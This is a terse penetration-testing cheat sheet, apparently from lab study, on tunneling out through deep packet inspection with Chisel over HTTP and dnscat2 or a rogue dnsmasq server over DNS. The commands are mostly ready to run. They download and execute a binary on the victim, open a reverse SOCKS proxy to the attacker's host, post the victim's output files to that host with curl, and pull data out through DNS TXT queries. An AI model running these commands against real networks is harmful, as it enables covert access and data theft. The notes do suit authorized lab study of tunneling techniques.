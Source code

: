 # Reason use
1. Deep Packet Inspection (app layer 7) of Outbound is inplemented
2. Only some format/protocol of data can use e.g. HTTP, DNS
3. Use tunneling

# HTTP Tunneling
## Chisel
1. choose correct version & architecture: https://github.com/jpillora/chisel/releases
2. transfer chisel to victim ``` bash -c 'wget "http://192.168.118.4/chisel" -O /tmp/chisel && chmod +x /tmp/chisel' ```
3. kali host: ``` chisel server --port 8080 --reverse ```
4. run chisel client in victim: ``` /tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 & ```
5. run with error output: ``` /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/ ```
6. Debug with tcp packet anaylsis: ``` sudo tcpdump -nvvvXi tun0 tcp port 8080 ```
7. [OR] check status of socks (same as be4): ``` ss -ntplu ```
8. use ncat w/ Proxycommand to connect ``` ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215 ``` 

### Support local port / dynamic port fwing 
- local version like this (in victim) ``` /tmp/chisel client 192.168.45.225:8080 R:1080:10.4.225.215:8008  ```
- check this doc: https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/ 


# DNS Tunneling

## dnscat2
1. listen if success by traffic tcp ``` sudo tcpdump -i ens192 udp port 53 ```
2. dns server: ``` dnscat2-server feline.corp ```
3. victim: ``` ./dnscat feline.corp ```
4. open window for us to interact dns server & 1 = the window of connected (could be others so run ``` window ``` first) : ``` window -i 1 ```

## Logic behind
- NOT STEALTHY since so many packet 
- UDP 53
- reg a sussy DNS with a wanted domain name ```feline.corp ``` (this domain is important as if only original dns cant find then will redirect to you)
- check victim current Dns server: ``` resolvectl status ```
- run in rogue DNS server: ``` sudo dnsmasq -C dnsmasq.conf -d ``` 
- run in victim ``` nslookup exfiltrated-data.feline.corp ``` & check ``` sudo tcpdump -i ens192 udp port 53 ``` to see if tcp have query record
- Smuggling data thru TXT record
